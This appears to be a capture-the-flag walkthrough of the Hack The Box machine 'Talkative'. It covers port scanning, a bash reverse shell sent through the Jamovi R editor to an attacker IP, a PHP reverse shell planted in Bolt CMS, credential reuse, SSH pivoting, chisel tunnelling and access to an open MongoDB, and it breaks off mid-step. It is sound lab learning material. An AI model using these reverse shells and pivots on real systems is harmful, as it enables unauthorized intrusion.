# Talkative
IP: 10.129.199.0

## Nmap
```
$ sudo nmap -sC -sV 10.129.199.0 -o nmap.txt

# Nmap 7.92 scan initiated Mon Apr 11 12:49:20 2022 as: nmap -sC -sV -o nmap.txt 10.129.199.0
Nmap scan report for 10.129.199.0
Host is up (0.22s latency).
Not shown: 994 closed tcp ports (reset)
PORT     STATE    SERVICE VERSION
22/tcp   filtered ssh
80/tcp   open     http    Apache httpd 2.4.52
|_http-title: Did not follow redirect to http://talkative.htb
|_http-server-header: Apache/2.4.52 (Debian)
3000/tcp open     ppp?
| fingerprint-strings: 
|   GetRequest: 
|     HTTP/1.1 200 OK
|     X-XSS-Protection: 1
|     X-Instance-ID: DqtfHH5DWBisCXSY2
|     Content-Type: text/html; charset=utf-8
|     Vary: Accept-Encoding
|     Date: Mon, 11 Apr 2022 04:49:32 GMT
|     Connection: close
|     <!DOCTYPE html>
|     <html>
|     <head>
|     <link rel="stylesheet" type="text/css" class="__meteor-css__" href="/3ab95015403368c507c78b4228d38a494ef33a08.css?meteor_css_resource=true">
|     <meta charset="utf-8" />
|     <meta http-equiv="content-type" content="text/html; charset=utf-8" />
|     <meta http-equiv="expires" content="-1" />
|     <meta http-equiv="X-UA-Compatible" content="IE=edge" />
|     <meta name="fragment" content="!" />
|     <meta name="distribution" content="global" />
|     <meta name="rating" content="general" />
|     <meta name="viewport" content="width=device-width, initial-scale=1, maximum-scale=1, user-scalable=no" />
|     <meta name="mobile-web-app-capable" content="yes" />
|     <meta name="apple-mobile-web-app-capable" conten
|   HTTPOptions: 
|     HTTP/1.1 200 OK
|     X-XSS-Protection: 1
|     X-Instance-ID: DqtfHH5DWBisCXSY2
|     Content-Type: text/html; charset=utf-8
|     Vary: Accept-Encoding
|     Date: Mon, 11 Apr 2022 04:49:34 GMT
|     Connection: close
|     <!DOCTYPE html>
|     <html>
|     <head>
|     <link rel="stylesheet" type="text/css" class="__meteor-css__" href="/3ab95015403368c507c78b4228d38a494ef33a08.css?meteor_css_resource=true">
|     <meta charset="utf-8" />
|     <meta http-equiv="content-type" content="text/html; charset=utf-8" />
|     <meta http-equiv="expires" content="-1" />
|     <meta http-equiv="X-UA-Compatible" content="IE=edge" />
|     <meta name="fragment" content="!" />
|     <meta name="distribution" content="global" />
|     <meta name="rating" content="general" />
|     <meta name="viewport" content="width=device-width, initial-scale=1, maximum-scale=1, user-scalable=no" />
|     <meta name="mobile-web-app-capable" content="yes" />
|     <meta name="apple-mobile-web-app-capable" conten
|   Help, NCP: 
|_    HTTP/1.1 400 Bad Request
8080/tcp open     http    Tornado httpd 5.0
|_http-title: jamovi
|_http-server-header: TornadoServer/5.0
8081/tcp open     http    Tornado httpd 5.0
|_http-title: 404: Not Found
|_http-server-header: TornadoServer/5.0
8082/tcp open     http    Tornado httpd 5.0
|_http-title: 404: Not Found
|_http-server-header: TornadoServer/5.0
Service Info: Host: 172.17.0.11

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Mon Apr 11 12:50:06 2022 -- 1 IP address (1 host up) scanned in 46.05 seconds
```

Port 80 redirects to `talkative.htb`, lets add it to our hosts file:
```
10.129.199.0      talkative.htb
```

## Reconnaissance
### Port 80


Looking at the source-code we see multiple indicators that is Bolt CMS:



### Port 8080
Jamovi 0.9.5.5 is running on port 8080:


### Port 3000
Rocket Chat running on port 3000:


Since we don't have credentials yet lets register a new account:
![[images/image12.png]]

As soon as we register and login with the credentials `caue:password123` we see that the `admin` joined the channel. His name is Saul Goodman:


Nothing much to do here now,  but lets keep in mind these details!

## Foothold
We can go to port 8080, open RJ editor:


Add this line and press CTRL+SHIFT+ENTER to execute ruby command to get a shell:
```
system("bash -c 'bash -i >& /dev/tcp/10.10.14.7/9001 0>&1'",intern=TRUE)
```

We are root inside a docker container:
```bash
$ rlwrap nc -lnvp 9001
listening on [any] 9001 ...
connect to [10.10.14.7] from (UNKNOWN) [10.129.199.0] 45914
bash: cannot set terminal process group (1): Inappropriate ioctl for device
bash: no job control in this shell
root@b06821bbda78:/#
root@b06821bbda78:/# ls -la
ls -la
total 80
drwxr-xr-x   1 root root 4096 Mar  7 23:18 .
drwxr-xr-x   1 root root 4096 Mar  7 23:18 ..
-rwxr-xr-x   1 root root    0 Aug 15  2021 .dockerenv
drwxr-xr-x   2 root root 4096 Jul 22  2021 bin
drwxr-xr-x   2 root root 4096 Apr 12  2016 boot
drwxr-xr-x   5 root root  340 Apr  9 22:00 dev
drwxr-xr-x   1 root root 4096 Aug 15  2021 etc
drwxr-xr-x   2 root root 4096 Apr 12  2016 home
drwxr-xr-x   1 root root 4096 Aug 15  2021 lib
drwxr-xr-x   2 root root 4096 Jul 22  2021 lib64
drwxr-xr-x   2 root root 4096 Jul 22  2021 media
drwxr-xr-x   2 root root 4096 Jul 22  2021 mnt
drwxr-xr-x   2 root root 4096 Jul 22  2021 opt
dr-xr-xr-x 409 root root    0 Apr  9 22:00 proc
drwx------   1 root root 4096 Mar  7 23:19 root
drwxr-xr-x   1 root root 4096 Aug 15  2021 run
drwxr-xr-x   1 root root 4096 Aug 15  2021 sbin
drwxr-xr-x   2 root root 4096 Jul 22  2021 srv
dr-xr-xr-x  13 root root    0 Apr  9 22:00 sys
drwxrwxrwt   1 root root 4096 Apr 11 05:09 tmp
drwxr-xr-x   1 root root 4096 Jul 22  2021 usr
drwxr-xr-x   1 root root 4096 Jul 22  2021 var
```

### Container IP
The container is lacking of network tools but we still can get the IP using `hostname`:
```
root@b06821bbda78:/# hostname -I
172.18.0.2
```

### Port Scan
Lets scan the ports open with a one liner bash script:
```bash
for port in $(seq 1 65535); do (echo fart > /dev/tcp/172.18.0.2/$port && echo "open - $port") 2> /dev/null; done
```

We have the following ports open:
- 41337
- 41338
- 41339
- 50218

### Finding credentials
We can find some interesting files under `/root` directory:
```
root@b06821bbda78:/# cd /root
root@b06821bbda78:~# ls -la
total 28
drwx------ 1 root root 4096 Mar  7 23:19 .
drwxr-xr-x 1 root root 4096 Mar  7 23:18 ..
lrwxrwxrwx 1 root root    9 Mar  7 23:19 .bash_history -> /dev/null
-rw-r--r-- 1 root root 3106 Oct 22  2015 .bashrc
drwxr-xr-x 3 root root 4096 Apr 11 05:09 .jamovi
-rw-r--r-- 1 root root  148 Aug 17  2015 .profile
drwxrwxrwx 2 root root 4096 Aug 15  2021 Documents
-rw-r--r-- 1 root root 2192 Aug 15  2021 bolt-administration.omv
```

The file `bolt-administration.omv` is a compressed zip file, we can decompress and see its contents:
```
root@b06821bbda78:~# file bolt-administration.omv
bolt-administration.omv: Zip archive data, at least v2.0 to extract
```

I will encode the file to base64 to transfer to my local machine:
```
root@b06821bbda78:~# cat bolt-administration.omv | base64
UEsDBBQAAAAIAAu6DlMlbXE6RwAAAGoAAAAUAAAATUVUQS1JTkYvTUFOSUZFU1QuTUbzTczLTEst                                                                                
LtENSy0qzszPs1Iw1DPgckksSdR1LErOyCxLRZHRM+LKSszNL8vEIgvS6FyUmliSmqLrVGmlAFGo                                                                                
YATUBYRcAFBLAwQUAAAACAALug5TJW1xOkcAAABqAAAABAAAAG1ldGHzTczLTEstLtENSy0qzszP
...[snip]...
```

Local machine:
```
$ echo 'UEsDBBQAAAAIAAu6DlMlbXE6RwAAAGoAAA...' | base64 -d > bolt-administration.omv
...
$ unzip bolt-administration.omv  
Archive:  bolt-administration.omv
  inflating: META-INF/MANIFEST.MF    
  inflating: meta                    
  inflating: index.html              
  inflating: metadata.json           
  inflating: xdata.json              
  inflating: data.bin                
  inflating: 01 empty/analysis
```

Inside the `xdata.json` file we can find usernames, emails and password:
```json
$ cat xdata.json | jq .
{                                                                                                                                                           
  "A": {                                                                                                                                                    
    "labels": [                                                                                                                                             
      [                                                                                                                                                     
        0,                                                                                                                                                  
        "Username",                                                                                                                                         
        "Username",                                                                                                                                         
        false                                                                                                                                               
      ],                                                                                                                                                    
      [                                                                                                                                                     
        1,                                                                                                                                                  
        "matt@talkative.htb",                                                                                                                               
        "matt@talkative.htb",                                                                                                                               
        false                                                                                                                                               
      ],                                                                                                                                                    
      [                                                                                                                                                     
        2,
        "janit@talkative.htb",
        "janit@talkative.htb",
        false
      ],
      [
        3,
        "saul@talkative.htb",
        "saul@talkative.htb",
        false
      ]
    ]
  },
  "B": {
    "labels": [
      [
        0,
        "Password",
        "Password",
        false
      ],
      [
        1,
        "jeO09ufhWD<s",
        "jeO09ufhWD<s",
        false
      ],
      [
        2,
        "bZ89h}V<S_DA",
        "bZ89h}V<S_DA",
        false
      ],
      [
        3,
        ")SQWGm>9KHEA",
        ")SQWGm>9KHEA",
        false
      ]
    ]
  },
  "C": {
    "labels": []
  }
}
```

With the credentials above we can try to reuse them in the other services running.

### Port 80 - Bolt
Running a gobuster on port 80 revealed a login portal for Bolt CMS:
```
$ gobuster dir -u http://talkative.htb/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt

===============================================================                                                                                             
Gobuster v3.1.0                                                                                                                                             
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)                                                                                               
===============================================================
[+] Url:                     http://talkative.htb/                 
[+] Method:                  GET                                              
[+] Threads:                 10                                               
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2022/04/11 13:24:44 Starting gobuster in directory enumeration mode
===============================================================
...[snip]...
/bolt                 (Status: 302) [Size: 290] [--> /bolt/login]
...[snip]...
```



We can login as `admin` reusing one of the passwords found previsouly:
```
admin:jeO09ufhWD<s
```

### Exploit Bolt
We can go to Configuration -> All configuration files and edit `bundles.php` adding a reverse shell there:


I used the php reverse shell that is pre-installed in Kali: `/usr/share/laudanum/php/php-reverse-shell.php`. And change my IP and PORT:


As we save the file and click in the Bolt Dashboard, the reverse shell is triggered.
```
$ whoami
www-data

$ ls -la
total 80
drwxr-xr-x   1 root root 4096 Apr  9 22:00 .
drwxr-xr-x   1 root root 4096 Apr  9 22:00 ..
-rwxr-xr-x   1 root root    0 Apr  9 22:00 .dockerenv
drwxr-xr-x   1 root root 4096 Mar  6 01:41 bin
drwxr-xr-x   2 root root 4096 Dec 11 17:25 boot
drwxr-xr-x   5 root root  340 Apr  9 22:00 dev
drwxr-xr-x   1 root root 4096 Apr  9 22:00 etc
drwxr-xr-x   2 root root 4096 Dec 11 17:25 home
drwxr-xr-x   1 root root 4096 Mar  1 19:13 lib
drwxr-xr-x   2 root root 4096 Feb 28 00:00 lib64
drwxr-xr-x   2 root root 4096 Feb 28 00:00 media
drwxr-xr-x   2 root root 4096 Feb 28 00:00 mnt
drwxr-xr-x   2 root root 4096 Feb 28 00:00 opt
dr-xr-xr-x 408 root root    0 Apr  9 22:00 proc
drwx------   1 root root 4096 Mar  6 01:50 root
drwxr-xr-x   1 root root 4096 Mar  1 19:20 run
drwxr-xr-x   1 root root 4096 Mar  1 19:20 sbin
drwxr-xr-x   2 root root 4096 Feb 28 00:00 srv
dr-xr-xr-x  13 root root    0 Apr  9 22:00 sys
drwxrwxrwt   1 root root 4096 Apr 11 05:31 tmp
drwxr-xr-x   1 root root 4096 Feb 28 00:00 usr
drwxr-xr-x   1 root root 4096 Mar  1 19:13 var
```

We are inside another docker container as `www-data`. This time we are in `172.17.0.11`
```bash
$ hostname -I
172.17.0.11
```

### Escape the docker container
I got stuck for a while in this part until I realised that maybe we could SSH into another container. So far we have the following credentials:

| Username | Password |
| :---: | --- |
| matt | jeO09ufhWD<s |
| saul | )SQWGm>9KHEA |
| janit | bZ89h}V<S_DA |

We have been to `172.18.0.2` and now we are in `172.17.0.11`.
We can try to SSH to the main host `172.18.0.1` as one of the users.

```bash
# UPGRADE TTY
$ script -q /dev/null sh 
Ctrl+Z

# In Kali
$ stty raw -echo; fg

# In target
$ export TERM=xterm

$ ssh saul@172.18.0.1
Password: jeO09ufhWD<s
```

## SSH as saul
```bash
$ ssh saul@172.18.0.1                                                                                                                                       
The authenticity of host 172.18.0.1 (172.18.0.1) cant be established.                                                                                    
ECDSA key fingerprint is SHA256:kUPIZ6IPcxq7Mei4nUzQI3JakxPUtkTlEejtabx4wnY.                                                                                
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes                                                                                    
Could not create directory '/var/www/.ssh' (Permission denied).                                                                                             
Failed to add the host to the list of known hosts (/var/www/.ssh/known_hosts).                                                                              
saul@172.18.0.1 password:                                                                                                                                 
Welcome to Ubuntu 20.04.4 LTS (GNU/Linux 5.4.0-81-generic x86_64)                                                                                           
                                                                                                                                                            
 * Documentation:  https://help.ubuntu.com                                                                                                                  
 * Management:     https://landscape.canonical.com                                                                                                          
 * Support:        https://ubuntu.com/advantage                                                                                                             
                                                                                                                                                            
  System information as of Mon 11 Apr 2022 07:11:38 AM UTC                                                                                                  
                                                                                                                                                            
  System load:                      0.02                                                                                                                    
  Usage of /:                       78.7% of 8.80GB                                                                                                         
  Memory usage:                     56%                                                                                                                     
  Swap usage:                       29%                                                                                                                     
  Processes:                        381                                                                                                                     
  Users logged in:                  0                                                                                                                       
  IPv4 address for br-ea74c394a147: 172.18.0.1                                                                                                              
  IPv4 address for docker0:         172.17.0.1                                                                                                              
  IPv4 address for eth0:            10.129.199.0                                                                                                            
  IPv6 address for eth0:            dead:beef::250:56ff:fe96:de36                                                                                           
                                                                                                                                                            
                                                                                                                                                            
18 updates can be applied immediately.
8 of these updates are standard security updates.
To see these additional updates run: apt list --upgradable

Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings


Last login: Mon Apr 11 06:46:19 2022 from 172.17.0.11
saul@talkative:~$
```


### Host enumeration
We can see the routes assigned in this machine.
```bash
saul@talkative:/tmp$ route
Kernel IP routing table
Destination     Gateway         Genmask         Flags Metric Ref    Use Iface
default         10.129.0.1      0.0.0.0         UG    0      0        0 eth0
10.129.0.0      0.0.0.0         255.255.0.0     U     0      0        0 eth0
172.17.0.0      0.0.0.0         255.255.0.0     U     0      0        0 docker0
172.18.0.0      0.0.0.0         255.255.0.0     U     0      0        0 br-ea74c394a147
```

I wonder if there are other hosts in that `docker0` interface. Lets enumerate.
Downloaded `nmap` static binary from [here](https://gitlab.com/pentest-tools/static-binaries/-/blob/master/binaries/linux/x86_64/nmap)and uploaded to the target machine.
```
saul@talkative:/tmp$ wget 10.10.14.7/nmap
--2022-04-11 07:51:27--  http://10.10.14.7/nmap
Connecting to 10.10.14.7:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 5944464 (5.7M) [application/octet-stream]
Saving to: ‘nmap’

nmap                                   100%[============================================================================>]   5.67M  1.25MB/s    in 13s
```

Scan the network `172.17.0.0/24`:
```bash
saul@talkative:/tmp$ ./nmap -sn 172.17.0.0-254 -v
```

### 172.17.0.2 - Open ports
```
saul@talkative:/tmp$ ./nmap -p- --min-rate=1000 -T4 172.17.0.2

Starting Nmap 6.49BETA1 ( http://nmap.org ) at 2022-04-11 08:03 UTC
Unable to find nmap-services!  Resorting to /etc/services
Cannot find nmap-payloads. UDP payloads are disabled.
Nmap scan report for 172.17.0.2
Host is up (0.000087s latency).
Not shown: 65534 closed ports
PORT      STATE SERVICE
27017/tcp open  unknown
```

27017 is the default port for MongoDB as we can see [here](https://www.mongodb.com/docs/manual/reference/default-mongodb-port/).

Uploaded `pspy` to monitor the processes and got something interesting:


So connecting the dots we could assume there is a MongoDB running there!
Lets use `chisel` to forward this port to us!
In Kali:
```bash
$ ./chisel server -p 4444 --reverse
```

In target:
```bash
saul@talkative:/tmp$ ./chisel client 10.10.14.7:4444 R:27017:172.17.0.2:27017 &
```

Install MongoDB client in Kali:
```
$ wget https://downloads.mongodb.com/compass/mongodb-mongosh_1.3.1_amd64.deb  
$ sudo dpkg -i mongodb-mongosh_1.3.1_amd64.deb
```

Now we can connect:
```bash
$ mongosh "mongodb://LOCALHOST:27017"

Current Mongosh Log ID: 6253e3d1fc81e56a594e00d8
Connecting to:          mongodb://LOCALHOST:27017/?directConnection=true&appName=mongosh+1.3.1
Using MongoDB:          4.0.26
Using Mongosh:          1.3.1

For mongosh info see: https://docs.mongodb.com/mongodb-shell/


To help improve our products, anonymous usage data is collected and sent to MongoDB periodically (https://www.mongodb.com/legal/privacy-policy).
You can opt-out by running the disableTelemetry() command.

------
   The server generated these startup warnings when booting:
   2022-04-09T22:00:45.084+0000: 
   2022-04-09T22:00:45.084+0000: ** WARNING: Using the XFS filesystem is strongly recommended with the WiredTiger storage engine
   2022-04-09T22:00:45.084+0000: **          See http://dochub.mongodb.org/core/prodnotes-filesystem
   2022-04-09T22:00:47.663+0000: 
   2022-04-09T22:00:47.663+0000: ** WARNING: Access control is not enabled for the database.
   2022-04-09T22:00:47.663+0000: **          Read and write access to data and configuration is unrestricted.
   2022-04-09T22:00:47.663+0000: 
------

rs0 [direct: primary] test>
```

List the databases:
```bash
rs0 [direct: primary] test> show databases
admin    106 kB
config   127 kB
local     13 MB
meteor  5.15 MB
```

Lets see wha is insede the `admin` database:
```bash
rs0 [direct: primary] test> use admin
switched to db admin
rs0 [direct: primary] admin> show tables
system.keys
system.version
```

Lets dump `system.keys` table:
```bash
